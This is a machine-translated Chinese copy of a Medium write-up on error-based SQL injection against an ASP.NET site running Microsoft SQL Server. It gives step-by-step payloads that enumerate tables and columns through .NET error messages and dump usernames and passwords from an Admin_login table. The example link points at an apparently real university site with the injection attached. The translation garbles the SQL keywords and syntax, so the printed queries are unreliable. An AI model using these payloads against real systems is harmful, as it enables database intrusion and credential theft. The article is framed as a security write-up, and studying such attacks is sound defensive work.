






# SQL 注入数据提取通过。NET framework 错误。

> 原文：<https://infosecwriteups.com/sql-injection-data-extraction-through-net-framework-error-ec9972858321?source=collection_archive---------0----------------------->

你好，我是 Atmanand Nagpure(proghax333)。我是一名计算机研究员，也是一名黑客。这是一个关于我如何想出一种方法，通过产生。NET 未处理的异常。这种技术适用于原始查询中有连接、联合或其他内容的地方。

**问题:**
所以，我面临的问题是:我在一个网站上尝试基于联盟的注射，但是当我尝试风格的注射的*订单时，网站没有给我响应中适当的列数。它给出了连接查询组中第一个表的列数。因此，我试图找出另一种从查询中提取数据的方法。*

有趣的是，从注入和无效输入中，我发现服务器技术是 Microsoft SQL server。所以，决定搜寻一些战功。但是，它们不起作用。

**记住，我是在尝试提取数据。没有尝试执行插入查询或更新查询。**

因此，我在附加到原始查询的 AND 语句中尝试了非封闭字符串比较。这是它的样子:

网址:[http://www.example.com/Department/FacultyDetailViewN.aspx?Id=](http://faculty.bamu.ac.in/Department/FacultyDetailViewN.aspx?Id=817%27%20and%201=%22%20--%20-+) 817 '和 1 = "--+

比较 1= "，其中"是非封闭字符串。产生了一些数据的异常。

好吧，现在我真的有动力了。我开始想，我们可以以某种方式提取结果错误中的数据。让错误出现。通过错误提取数据。

**解决方案:**

因此，在牢记这一愿景后，我开始编写一个嵌套的 SQL 查询，并将其与整数 1 进行比较，如下所示:

？Id=817 '和 1=(从 information_schema.tables 中选择 table _ name

它给了我这个…嗯…是的…但是，这不是真正的大问题…

是的…这是行不通的，因为它返回多个值。不过，修好它没什么大不了的。

所以，我决定只返回一行作为查询结果。出于测试目的，我使用了 *select top 1，*返回表格的第一行。所以，是的…我用了它，瞧！我从 information_schema.tables 中获得了第一个 table_name！

？Id=817 '和 1=(从 information_schema.tables 中选择前 1 个表名)—+

瞧啊。从 information_schema 表中获取了第一个 table_name。

因此，在解决了第一个问题之后，又出现了另一个与 SQL Server 语言语法相关的问题:MSSQL 没有' **LIMIT m，n** ' 语法！！！没有测距操作员！！！现在该怎么办？因为，比较只能发生在单值之间。

然后，我发现使用了一个很棒的 SQL Server hack，它将所有行连接成一个 XML。传说中的*FOR XML(')*hack！

**注意:**DB _ NAME()函数返回 MSSQL 中当前数据库的名称。

我是这样做的:
？Id=817 '和 1=(select cast(concat(db_name()，0x3a，0x3a，table_name，0x0a)as varchar(8000))from information _ schema . tables for XML path('))—+

以下是数据库中的表格。

现在，下一步是获取 Admin_login 表的列。只是使用了通用的 *where* 条件。

？Id=817 '和 1=(select cast(concat(db_name()，0x3a，0x3a，column_name，0x0a)as varchar(8000))from information _ schema . columns 其中 table _ name = ' Admin _ log in ' for XML path('))—+

这是表中的列。现在，只需要提取数据。

现在，一切都很简单。我唯一要做的就是对表执行一个简单的 SQL Select 查询:

817 '和 1 =(select cast(UId，0x3a，0x3a，Pwd，0x0a)as varchar(8000))from Admin _ log in for XML path(' ')—+

这就是 Admin_login 表中的用户名:密码

就是这样！那是我的第一次尝试！

**方法二(真的？啊？):**

因此，这里有另一个查询，我使用一个简单的方法来逐行提取数据:ROW_NUMBER()函数。

*817 '和 1=(SELECT concat(0x35，0x34，0x35，0x31，0x35，0x46，0x46，0x46，0x41，0x45，0x39，0x42，0x32，0x37，0x36，0x39，0x31，0x41，0x31，0x30，0x31，0x41，db_name()，0x3a，0x3a，table_name，0x37，0x41，0x46，*

哇哦。大查询…但是那个十六进制的东西只是用来提取数据的，使用一个定制的 PHP 脚本编写，用 CURL API 提取数据。我执行了 GET 请求。脚本检查数据库返回的数据。这是可能的，因为十六进制的东西只不过是一个由 JavaScript RegEx 搜索的唯一字符串。它提取该唯一字符串之间的子字符串。然后使用专门编写的 JavaScript 函数删除重复数据。

自定义 PHP 脚本从网站检索数据，并以表格格式呈现。

因此，开发人员必须采取最大的谨慎和预防措施来保证数据的安全，不要将接口和直接对象引用泄露给外人。将您的服务器升级到最新的 Microsoft SQL Server 2017 或更高版本。

今天就到这里吧！

问候，
[atman and nag pure](https://medium.com/@skillzworldtech)(Prog hax 333)。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

 [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)